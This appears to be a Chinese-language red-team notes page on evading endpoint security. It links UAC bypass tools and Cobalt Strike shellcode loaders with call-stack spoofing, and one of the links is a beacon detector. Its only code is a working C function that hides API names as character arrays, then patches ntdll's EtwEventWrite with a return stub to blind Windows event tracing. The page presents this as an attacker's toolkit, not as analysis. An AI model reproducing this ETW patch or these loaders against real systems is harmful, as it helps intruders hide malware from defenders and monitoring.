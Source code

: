 # 基础学科
* 反射加载器 [ https://github.com/monoxgas/sRDI ]

# 常见终端绕过（或检测）技术

## Bypass UAC
* 通过环境变量(DLL)劫持iscsicpl, 不支持win7 [ https://github.com/zha0gongz1/iscsicpl_bypassUAC ]
* ICMLuaUtil接口(通杀win7-win11 墙裂推荐⭐) https://github.com/0xlane/BypassUAC/blob/master/BypassUAC/main.cpp

## CS(SHELLCODE) 内存检测
* https://github.com/thefLink/Hunt-Sleeping-Beacons

## CS(SHELLCODE) 加载器
* AceLdr [ https://github.com/kyleavery/AceLdr ], 具备`shellcode`运行时加解密, 调用栈伪造等特性 (TitanLdr框架 + FOLIAGE + RET_ADDR_SPOOFING)
* TitanLdr [ https://github.com/kyleavery/TitanLdr ], 原版 D2H 的`shellcode`加载器, 粗略看过一遍

## Bypass ETW
```C

int DisableETW(void) {
	unsigned char strVirtualProtect[] = { 'V','i','r','t','u','a','l','P','r','o','t','e','c','t',0x0 };
	unsigned char strFlushInstructionCache[] = { 'F','l','u','s','h','I','n','s','t','r','u','c','t','i','o','n','C','a','c','h','e',0x0 };
	WCHAR strKernel32dll[] = { 'K','e','r','n','e','l','3','2','.','d','l','l',0x0 };
	WCHAR strNtdlldll[] = { 'N','t','d','l','l','.','d','l','l',0x0 };

	VirtualProtect_t VirtualProtect_p = (VirtualProtect_t)hlpGetProcAddress(hlpGetModuleHandle(strKernel32dll), (LPCSTR)strVirtualProtect);
	t_FlushInstructionCache pFlushInstructionCache = (t_FlushInstructionCache)hlpGetProcAddress(hlpGetModuleHandle(strKernel32dll), strFlushInstructionCache);

	DWORD oldprotect = 0;

	unsigned char sEtwEventWrite[] = { 'E','t','w','E','v','e','n','t','W','r','i','t','e', 0x0 };

	void* pEventWrite = hlpGetProcAddress(hlpGetModuleHandle((LPCSTR)strNtdlldll), (LPCSTR)sEtwEventWrite);

	VirtualProtect_p(pEventWrite, 4096, PAGE_EXECUTE_READWRITE, &oldprotect);

#ifdef _WIN64
	memcpy(pEventWrite, "\x48\x33\xc0\xc3", 4); 		// xor rax, rax; ret
#else
	memcpy(pEventWrite, "\x33\xc0\xc2\x14\x00", 5);		// xor eax, eax; ret 14
#endif

	VirtualProtect_p(pEventWrite, 4096, oldprotect, &oldprotect);
	pFlushInstructionCache(-1, pEventWrite, 4096);
	return 0;
}

// https://github.com/Allevon412/BreadBear/blob/4f1f5da39b423f0655df9338e01c8b733c6d1152/stage1/Evasion.c
```
